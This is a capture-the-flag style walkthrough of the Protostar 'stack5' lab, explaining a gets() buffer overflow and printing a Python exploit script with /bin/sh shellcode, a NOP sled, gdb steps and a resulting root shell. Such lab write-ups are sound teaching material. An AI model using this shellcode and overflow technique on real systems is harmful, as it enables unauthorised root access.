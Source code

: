 # Stack5 Solution

## C Code

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

* At this point in time, it might be easier to use someone elses shellcode
* If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
remove the int3s once your shellcode is done.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Vulnerability

Ok, so now we have some *very* minimal C code with just a `char buffer[64]` and `get(buffer)`. From this, we need to get a **root shell**.
You may be thinking, *how do we do that*. The answer lies in **executing shellcode put on the stack** by abusing `gets()`. Let me explain.

You know how we can **edit the stack** by using a **buffer overflow**? We can also **put values on the stack** and if **EIP points to it**,
the stack value(s) will **execute**. This is preventable by using a system called **NX**, which stands no **No-Execution**. This system
**prevents stack values from being executed**, which is useful to prevent this style of attack.

Now that we know that **the stack is executable**, can we **put shellcode on the stack, then execute** it by **overwriting the return
address to point to that shellcode**? **Yes, we can**! So let's do it!

First, we need to **make sure that the shellcode is always executed**. To do that, we use something called a **NOP sled**. A `nop`
instruction basically just **moves to the next instruction**. So we can place a **bunch of NOPs above our shellcode** (shellcode is the code
needed to create a shell) and then we basically have some **room for error**, since we could return **anywhere inside of the NOP sled** and
still execute our shellcode.

**So let's exploit!**

## Exploit

First, let's **reuse** the **padding** from [stack4](https://github.com/Naksh-Rathore/protostar-solutions/tree/main/stack4/) so we do not have to check what the padding is *again*.

We first need the **return address's** memory address to use as a estimate of the NOP sled address.

```bash
(gdb) break *main+22
(gdb) r
QQQQWWWWEEEERRRRTTTTYYYYUUUUIIIIOOOOPPPPAAAASSSSDDDDFFFFGGGGHHHHJJJJKKKKLLLLZZZZXXXXCCCCVVVVBBBBNNNNMMMM

SIGSEV - Segmentation Fault
```

Now, since **the next thing on the stack is the memory address, let's get ESP**, since that will point to the return address.

```bash
(gdb) p $esp
$1 = (void *) 0xbffff7d0
```

Now that we know **the memory address** of the return address, we can make the return address point to **it's memory address + ~30 bytes** to reach the middle of the NOP sled.

But now we need **shellcode**. Let's use the **32 bit execve** `/bin/sh` **shellcode** from **ShellStorm**. I have linked it in the resources section. 

Here is our **payload layout**:

```
[ 72 bytes of padding ]
[ 4 bytes to overwrite EBP ]
[ 4 bytes to overwrite return address ]
[ NOP sled containing 100 NOPs ]
[ Shellcode ]
```

Ok, so let's build the exploit script:

```python
import struct

padding = "A" * 72
ebp = "LLLL"
ret_addr = struct.pack("I", 0xbffff7d0 + 30)
shellcode = (
        "\x31\xc0\x50\x68\x2f\x2f\x73"
        "\x68\x68\x2f\x62\x69\x6e\x89"
        "\xe3\x89\xc1\x89\xc2\xb0\x0b"
        "\xcd\x80\x31\xc0\x40\xcd\x80"
)
nop_sled = "\x90" * 100

print(padding + ebp + ret_addr + nop_sled + shellcode)
```

To **properly run**, we need to redirect the stdin to stdout with the `cat` command.

Result:

```bash
$ (python /tmp/exploit.py; cat) | /opt/protostar/bin/stack5
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALLLL????????????????????????????????????????????????????????????????????????????????????????????????????????1?Ph//shh/bin????°
                                      ̀1?@̀

whoami
root
```

## Resources

* [C Code](https://exploit.education/protostar/stack-five/)
* [/bin/sh ShellCode from ShellStorm](https://shell-storm.org/shellcode/files/shellcode-811.html)
* [LiveOverflow's Solution on YouTube](https://www.youtube.com/watch?v=HSlhY4Uy8SA)
* [Wikipedia Article on the NX Bit](https://en.wikipedia.org/wiki/NX_bit)


